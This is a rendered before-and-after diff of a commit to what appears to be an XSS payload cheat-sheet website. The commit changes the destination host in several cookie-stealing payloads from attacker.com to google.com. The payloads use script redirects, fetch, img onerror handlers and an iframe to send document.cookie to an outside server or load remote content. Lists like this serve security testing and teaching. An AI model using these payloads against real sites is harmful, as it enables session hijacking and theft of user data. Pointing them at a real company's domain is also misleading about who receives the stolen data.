

Before and after one commit to WillJTools/xss.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 1170-2510 px from the top of the page at 99% size, without its empty margins (188-1091 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -77,14 +77,14 @@
         Steal cookies
       </div>
       <pre><code>
-&lt;script&gt;document.location='http://attacker.com/steal.php?cookie='+document.cookie&lt;/script&gt;
+&lt;script&gt;document.location='http://google.com/steal.php?cookie='+document.cookie&lt;/script&gt;
       </code></pre>
 
       <div class="payload-description">
         Load external content
       </div>
       <pre><code>
-&lt;iframe src="http://attacker.com/malicious.html"&gt;&lt;/iframe&gt;
+&lt;iframe src="http://google.com/malicious.html"&gt;&lt;/iframe&gt;
       </code></pre>
 
       <div class="payload-description">
@@ -140,7 +140,7 @@
         Log data to attacker's server
       </div>
       <pre><code>
-&lt;img src="x" onerror="document.location='http://attacker.com/log.php?data='+document.cookie"&gt;
+&lt;img src="x" onerror="document.location='http://google.com/log.php?data='+document.cookie"&gt;
       </code></pre>
     </div>
 
@@ -151,7 +151,7 @@
         Fetch and steal cookies
       </div>
       <pre><code>
-&lt;script&gt;fetch('http://attacker.com/steal.php?cookie='+document.cookie)&lt;/script&gt;
+&lt;script&gt;fetch('http://google.com/steal.php?cookie='+document.cookie)&lt;/script&gt;
       </code></pre>
 
       <div class="payload-description">
@@ -186,7 +186,7 @@
         Log data to attacker's server
       </div>
       <pre><code>
-&lt;script&gt;document.location='http://attacker.com/log.php?data='+document.cookie&lt;/script&gt;
+&lt;script&gt;document.location='http://google.com/log.php?data='+document.cookie&lt;/script&gt;
       </code></pre>
 
       <div class="payload-description">
@@ -214,7 +214,7 @@
         Load attacker's content
       </div>
       <pre><code>
-&lt;img src=1 onerror=this.src='//attacker.com/pwned?c='+document.cookie&gt;
+&lt;img src=1 onerror=this.src='//google.com/pwned?c='+document.cookie&gt;
       </code></pre>
 
       <div class="payload-description">
```
